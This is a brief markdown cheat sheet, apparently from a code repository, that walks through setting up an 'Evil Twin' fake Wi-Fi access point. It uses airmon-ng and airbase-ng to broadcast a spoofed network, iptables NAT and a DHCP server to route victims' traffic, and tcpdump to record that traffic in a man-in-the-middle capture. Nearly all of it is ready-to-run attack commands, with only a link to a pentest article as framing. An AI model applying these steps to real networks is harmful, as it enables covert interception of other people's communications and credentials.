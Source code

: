 # Evil Twin
https://thecybersecurityman.com/2018/08/11/pentest-edition-creating-an-evil-twin-or-fake-access-point-using-aircrack-ng-and-dnsmasq-part-1-setup/
### Config Wireless Interface

See available wireless network interfaces to use

```airmon-ng```

Config wireless interface in mod monitor

```airmon-ng start wlan0```


### Config Facke AP

Create new screen for facke AP

```screen -S fakeAP```

Config facke AP

```airbase-ng -c 6 -e "FakeAPname" mon0 [wlan0mon, wlan0]```
```	```

Deatach from  screen

```Cntrl a d```

Connfig the IP to the new interface
```ifconfig at0 up```
```ifconfig at0 [IP-Address] netmask 255.255.255.0```

Check config

```ip route```

### Config Firewall

Configure iptables. The output interface is de internet exit interface

```iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE```

```iptables --append FORWARD --in-interface at0 -j ACCEPT```

Config forwarding

```echo 1 > /proc/sys/net/ipv4/ip_forward```


### Config DHCP

```dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhclient-eth0.pid at0```

```sudo systemctl start isc-dhcp-server.service```

```sudo systemctl status isc-dhcp-server.service```


### If failed

```sudo rm /var/run/dhcpd.pid```
```airmon-ng check kill```
```netstat -tupln```
```kill -9 [pid]```


### MITM Record 

```tcpdump -i at0 -w fileName.pcap -vv```
